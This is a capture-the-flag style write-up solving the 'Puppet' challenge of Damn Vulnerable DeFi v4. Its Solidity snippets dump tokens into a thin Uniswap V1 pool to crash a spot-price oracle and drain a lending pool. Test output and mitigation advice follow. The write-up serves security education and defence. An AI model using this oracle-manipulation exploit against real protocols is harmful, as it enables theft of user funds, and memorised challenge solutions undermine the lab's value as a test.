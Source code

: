 # Puppet Challenge Solution

A security study and step-by-step exploit of the “Puppet” price-oracle vulnerability in Damn Vulnerable DeFi v4.  
Demonstrates how on-chain spot pricing without time-weighting can be manipulated in a single transaction to drain a lending pool.


## Background

This challenge features a lending pool requiring 2× ETH collateral per DVT borrowed.  
The pool uses a Uniswap V1 exchange as its price oracle, pulling the current spot price from the pool’s 10 ETH / 10 DVT liquidity.  
An attacker starting with 25 ETH and 1 000 DVT can crash the price and borrow the entire 100 000 DVT in one transaction.

---

## Challenge Setup

- **Lending Pool**:  
  - Holds 100 000 DVT  
  - Collateral formula: `2 × amount × spotPrice`  

- **Uniswap V1 Pool**:  
  - 10 ETH and 10 DVT  
  - Spot price = `getTokenToEthInputPrice`  

- **Attacker Wallet**:  
  - 25 ETH  
  - 1 000 DVT  

---

## Exploit Walkthrough

1. **Approve DVT**  
   The attacker approves the Uniswap V1 exchange to pull all 1 000 DVT.

2. **Dump DVT → ETH**  
   ```solidity
   uint256 tokens = token.balanceOf(player);
   token.approve(address(dex), tokens);
   dex.tokenToEthSwapInput(tokens, 1, block.timestamp);


This sale skews the pool ratio and crashes the spot price.

3. **Calculate Collateral**
```solidity
uint256 poolTokens = token.balanceOf(address(pool));
uint256 requiredEth = pool.calculateDepositRequired(poolTokens);
```
Collateral requirement becomes negligible.

4. **Borrow All DVT**
```solidity
pool.borrow{value: requiredEth}(poolTokens, recovery);
```
The entire 100 000 DVT is transferred to the recovery address, the attack is successful.

## Mitigation Strategies

- **Time-Weighted Average Price (TWAP)**
  - Integrate Uniswap V2/V3 TWAP over a 30-minute window.
  - In practice, dumping 1 000 DVT into a 10 ETH/10 DVT pool moves spot price by ≈ 90 %, but a 30-minute TWAP only shifts by ≈ 3 %.
  - Implementable via on-chain contracts or Chainlink TWAP adapters.

- **Multi-Source Price Aggregation**
  - Combine spot prices from multiple DEXs (Uniswap, SushiSwap) and a centralized oracle (Chainlink).
  - Use a medianizer contract to reject outliers, forcing an attacker to manipulate ≥ 3 venues simultaneously.

- **Borrow Caps & Rate Limits**
  - Enforce a per-transaction cap (e.g., max 1 000 DVT/tx) and a per-block cap (e.g., max 5 000 DVT/block).
  - In this setup, a 1 000 DVT cap would block a full drain, buying time for manual intervention and alerting.

- **Circuit Breakers on Volatility**
  - Pause borrowing when price moves exceed a 10 % threshold within a 1-minute interval.
  - Integrate on-chain monitoring to automatically halt lending if abrupt swings occur.

All these recommendations are practical to implement in existing DeFi protocols and critically reduce the attack surface for flash-loan and price-manipulation attacks.

## Conclusion

Working through the Puppet challenge reinforced a simple truth: any on-chain oracle that relies solely on spot rates and low liquidity can be weaponized. By building and running this exploit myself, I gained hands-on insight into:

- Crafting single-transaction attacks against spot-based oracles
- The importance of smoothing and multi-source aggregation in price feeds
- Designing operational guardrails (caps, circuit breakers) that balance security with liquidity

This case study serves as both a cautionary tale and a blueprint for hardening production DeFi systems against flash manipulation risks.

## Hasil Test (CLI Output)

```bash
[⠒] Compiling...
[⠰] Compiling 1 files with Solc 0.8.25
[⠔] Solc 0.8.25 finished in 1.26s
Compiler run successful!

Ran 2 tests for test/puppet/Puppet.t.sol:PuppetChallenge
[PASS] test_assertInitialState() (gas: 49224)
[PASS] test_puppet() (gas: 159910)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 2.95ms (375.20µs CPU time)

Ran 1 test suite in 16.13ms (2.95ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)







